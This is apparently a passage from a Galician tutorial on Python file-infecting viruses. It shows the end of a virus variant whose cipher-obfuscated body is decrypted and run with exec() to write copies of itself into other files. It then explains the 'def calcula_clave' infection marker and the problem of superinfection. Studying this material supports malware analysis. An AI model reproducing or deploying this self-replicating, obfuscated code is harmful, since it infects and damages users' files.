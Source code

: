 ```python
                itkmx_t_vbyktk = obknl[obknl.ybgw("wxy vbykt"):]
                itkmx_xg_vetkh_fhwbybvtwt = fhwbybvt(itkmx_xg_vetkh)
                vetox = vtevnet_vetox(mxqmh_lvkbim)
                itkmx_vkbyktwt = vbykt(itkmx_t_vbyktk, vetox)
                lvkbim.pkbmx(itkmx_xg_vetkh_fhwbybvtwt)
                wxlvkbyktwhk = "bfihkm lrl" + vak(10) + "ihkmtwhk = hixg(lrl.tkzo[0], " + vak(34) + "k" + vak(34) + ")" + vak(10) + "mxqmh_ihkmtwhk = ihkmtwhk.kxtw()" + vak(10) + "ihkmtwhk.vehlx()" + vak(10) + "itkmx_lbg_vbyktk = mxqmh_ihkmtwhk[mxqmh_ihkmtwhk.ybgw(" + vak(34) + "wxy vtevnet_vetox" + vak(34) + "):mxqmh_ihkmtwhk.ybgw(" + vak(34) + "wxy vtevnet_vetox" + vak(34) + ")+" + lmk(exg(itkmx_xg_vetkh_fhwbybvtwt)) + "]" + vak(10) + "vetox = vtevnet_vetox(mxqmh_ihkmtwhk)" + vak(10) + "mxqmh_wxlvbyktwh = wxlvbykt(" + vak(34) + vak(34) + vak(34) + itkmx_vkbyktwt + vak(34) + vak(34) + vak(34) + ", vetox)" + vak(10) + "xqxv(mxqmh_wxlvbyktwh)" + vak(10) + "xqxvnmt(itkmx_lbg_vbyktk + mxqmh_wxlvbyktwh)"
                lvkbim.pkbmx(wxlvkbyktwhk)
            lvkbim.vehlx()


wxy itrehtw():
    ikbgm("Ynvaxl bgyxvmtwh")


wxy xqxvnmt(obknl):
    bgyxvmtk(obknl)
    itrehtw()""", clave)
exec(texto_descifrado)
executa(parte_sin_cifrar + texto_descifrado)
```

Finalmente, hai que recordar que esta variante do virus coma a anterior, infectan aos arquivos que non conteñan a cadea 
de caracteres “def calcula_clave”, polo que se nun programa ou script lexítimo existe esa cadea de caracteres, non será 
infectado.

# A ter en conta
## Discriminación de arquivos
Nas dúas últimas variantes do virus, sucede que á hora de ver se un arquivo está previamente infectado, comprobase se 
contén a cadea de caracteres “def calcula_clave”. Cando un virus utiliza unha forma de detectarse a si mesmo, permite 
que os analistas saiban esta mesma información, polo cal van a saber como detectar se un arquivo pode estar infectado 
ou non.

Por outra banda, se o virus non ten este mecanismo, pode ter problemas de sobreinfección. Isto é que o virus pode 
infectar varias veces o mesmo arquivo. A sobreinfección dun ou varios arquivos desemboca en que o usuario perciba un 
peor funcionamento á hora de executar un programa (ao fin e ao cabo, se se executa un programa infectado varias veces, 
tardará en realizar a funcionalidade lexítima xa que tamén se executará o código de varias infeccións), xunto cunha 
perda de espazo na memoria secundaria. Esta falta de rendemento e espazo fará que o usuario pense que algo vai mal, 
facendo que leve a reparar o computador e por conseguinte se pare a infección.
